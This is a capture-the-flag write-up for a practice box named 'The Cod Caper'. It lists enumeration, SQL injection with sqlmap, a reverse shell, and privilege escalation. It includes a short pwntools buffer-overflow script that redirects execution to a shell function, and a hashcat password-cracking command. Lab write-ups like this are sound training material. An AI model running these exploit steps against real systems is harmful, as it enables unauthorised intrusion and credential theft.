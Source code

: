 # The Cod Caper
## Enumeration
+ Enumerated the box using nmap initial custom scan.
+ Found the SSH and apache running.
+ Ran gobuster to enumerate files and directories. 
+ Found `administrator.php`.
+ Checking for SQLi using SQLmap.

## Exploitation
+ SQLmap yielded credentials.
+ Logged into web admin portal to be able to execute commands.
+ Got a reverse shell going, used `find` command and found ssh key and hidden password for user `pingu`.
+ SSHed into user `pingu` usings credentials and private key.
+ Ran linpeas to find a hidden binary at `/opt/secret/root`.
+ Opened binary in `pwndbg`.
+ Run with cyclic output: `r < < (cyclic 50)`.
+ Find the number of characters to reach EIP: `cyclic -l 0x6161616c`.
+ Used pwntools to write following script to crack binary:
```
from pwn import *
proc = process('/opt/secret/root')
elf = ELF('/opt/secret/root')
shell_func = elf.symbols.shell
payload = fit({
44: shell_func
})
proc.sendline(payload)
proc.interactive()
```
+ Used hashcat to crack password: `hashcat -a 0 -m 1800 hash ../rockyou.txt`.
+ Logged in as root.
